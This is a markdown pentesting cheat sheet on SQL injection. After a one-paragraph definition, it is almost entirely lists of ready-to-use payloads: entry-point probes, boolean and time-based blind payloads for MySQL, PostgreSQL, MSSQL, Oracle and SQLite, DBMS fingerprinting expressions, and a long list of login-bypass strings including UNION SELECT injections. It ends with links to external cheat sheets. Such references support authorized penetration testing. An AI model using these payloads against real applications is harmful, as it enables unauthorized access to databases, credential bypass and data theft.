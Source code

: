 # SQL Injection

The **SQL injection** vulnerability in web applications occurs when user inputs are not properly sanitized, allowing attackers to inject malicious SQL code into queries. This can lead to unauthorized access to the database, data theft, data manipulation, or even the complete compromise of the application's backend database, resulting in significant security breaches and data loss.

## Entry point detection <a href="#entry-point-detection" id="entry-point-detection"></a>

### Error Messages

```plsql
'
%27
"
%22
#
%23
;
%3B
)
```

### Logical Operations

```plsql
1 or 1=1  -- true
1 and 1=2 -- false
```

### Time/Blind

<pre class="language-plsql"><code class="lang-plsql">-- MySQL --
sleep(10)

-- PostgreSQL --
pg_sleep(10)

-- MSSQL --
WAITFOR DELAY '0:0:10'

<strong>-- Oracle --
</strong>[RANDNUM]=DBMS_PIPE.RECEIVE_MESSAGE('[RANDSTR]',[SLEEPTIME])
123=DBMS_PIPE.RECEIVE_MESSAGE('ASD',10)

-- SQLite --
[RANDNUM]=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB([SLEEPTIME]00000000/2))))
123=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(1000000000/2))))
</code></pre>

### DBMS Identification

```javascript
["conv('a',16,2)=conv('a',16,2)"                   ,"MYSQL"],
["connection_id()=connection_id()"                 ,"MYSQL"],
["crc32('MySQL')=crc32('MySQL')"                   ,"MYSQL"],
["BINARY_CHECKSUM(123)=BINARY_CHECKSUM(123)"       ,"MSSQL"],
["@@CONNECTIONS>0"                                 ,"MSSQL"],
["@@CONNECTIONS=@@CONNECTIONS"                     ,"MSSQL"],
["@@CPU_BUSY=@@CPU_BUSY"                           ,"MSSQL"],
["USER_ID(1)=USER_ID(1)"                           ,"MSSQL"],
["ROWNUM=ROWNUM"                                   ,"ORACLE"],
["RAWTOHEX('AB')=RAWTOHEX('AB')"                   ,"ORACLE"],
["LNNVL(0=123)"                                    ,"ORACLE"],
["5::int=5"                                        ,"POSTGRESQL"],
["5::integer=5"                                    ,"POSTGRESQL"],
["pg_client_encoding()=pg_client_encoding()"       ,"POSTGRESQL"],
["get_current_ts_config()=get_current_ts_config()" ,"POSTGRESQL"],
["quote_literal(42.5)=quote_literal(42.5)"         ,"POSTGRESQL"],
["current_database()=current_database()"           ,"POSTGRESQL"],
["sqlite_version()=sqlite_version()"               ,"SQLITE"],
["last_insert_rowid()>1"                           ,"SQLITE"],
["last_insert_rowid()=last_insert_rowid()"         ,"SQLITE"],
["val(cvar(1))=1"                                  ,"MSACCESS"],
["IIF(ATN(2)>0,1,0) BETWEEN 2 AND 0"               ,"MSACCESS"],
["cdbl(1)=cdbl(1)"                                 ,"MSACCESS"],
["1337=1337",   "MSACCESS,SQLITE,POSTGRESQL,ORACLE,MSSQL,MYSQL"],
["'i'='i'",     "MSACCESS,SQLITE,POSTGRESQL,ORACLE,MSSQL,MYSQL"],
```

### Authentication Bypass

```plsql
'-'
' '
'&'
'^'
'*'
' or 1=1 limit 1 -- -+
'="or'
' or ''-'
' or '' '
' or ''&'
' or ''^'
' or ''*'
'-||0'
"-||0"
"-"
" "
"&"
"^"
"*"
'--'
"--"
'--' / "--"
" or ""-"
" or "" "
" or ""&"
" or ""^"
" or ""*"
or true--
" or true--
' or true--
") or true--
') or true--
' or 'x'='x
') or ('x')=('x
')) or (('x'))=(('x
" or "x"="x
") or ("x")=("x
")) or (("x"))=(("x
or 2 like 2
or 1=1
or 1=1--
or 1=1#
or 1=1/*
admin' --
admin' -- -
admin' #
admin'/*
admin' or '2' LIKE '1
admin' or 2 LIKE 2--
admin' or 2 LIKE 2#
admin') or 2 LIKE 2#
admin') or 2 LIKE 2--
admin') or ('2' LIKE '2
admin') or ('2' LIKE '2'#
admin') or ('2' LIKE '2'/*
admin' or '1'='1
admin' or '1'='1'--
admin' or '1'='1'#
admin' or '1'='1'/*
admin'or 1=1 or ''='
admin' or 1=1
admin' or 1=1--
admin' or 1=1#
admin' or 1=1/*
admin') or ('1'='1
admin') or ('1'='1'--
admin') or ('1'='1'#
admin') or ('1'='1'/*
admin') or '1'='1
admin') or '1'='1'--
admin') or '1'='1'#
admin') or '1'='1'/*
1234 ' AND 1=0 UNION ALL SELECT 'admin', '81dc9bdb52d04dc20036dbd8313ed055
admin" --
admin';-- azer 
admin" #
admin"/*
admin" or "1"="1
admin" or "1"="1"--
admin" or "1"="1"#
admin" or "1"="1"/*
admin"or 1=1 or ""="
admin" or 1=1
admin" or 1=1--
admin" or 1=1#
admin" or 1=1/*
admin") or ("1"="1
admin") or ("1"="1"--
admin") or ("1"="1"#
admin") or ("1"="1"/*
admin") or "1"="1
admin") or "1"="1"--
admin") or "1"="1"#
admin") or "1"="1"/*
1234 " AND 1=0 UNION ALL SELECT "admin", "81dc9bdb52d04dc20036dbd8313ed055
```

## Cheatsheets

* **MySQL**
  * [**https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md**](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md)
  * [**https://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet**](https://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet)
* **Oracle**
  * [**https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/OracleSQL%20Injection.md**](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/OracleSQL%20Injection.md)
  * [**https://pentestmonkey.net/cheat-sheet/sql-injection/oracle-sql-injection-cheat-sheet**](https://pentestmonkey.net/cheat-sheet/sql-injection/oracle-sql-injection-cheat-sheet)
* **PostgreSQL**
  * [**https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md**](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md)
  * [**https://pentestmonkey.net/cheat-sheet/sql-injection/postgres-sql-injection-cheat-sheet**](https://pentestmonkey.net/cheat-sheet/sql-injection/postgres-sql-injection-cheat-sheet)
* **MSSQL**
  * [**https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MSSQL%20Injection.md**](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MSSQL%20Injection.md)
  * [**https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet**](https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet)
* **Other DBMSs**
  * [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#cheatsheets](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#cheatsheets)
  * [https://pentestmonkey.net/category/cheat-sheet/sql-injection](https://pentestmonkey.net/category/cheat-sheet/sql-injection)

## References

[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection)\
[https://book.hacktricks.xyz/pentesting-web/sql-injection](https://book.hacktricks.xyz/pentesting-web/sql-injection)\
[https://pentestmonkey.net/category/cheat-sheet/sql-injection](https://pentestmonkey.net/category/cheat-sheet/sql-injection)
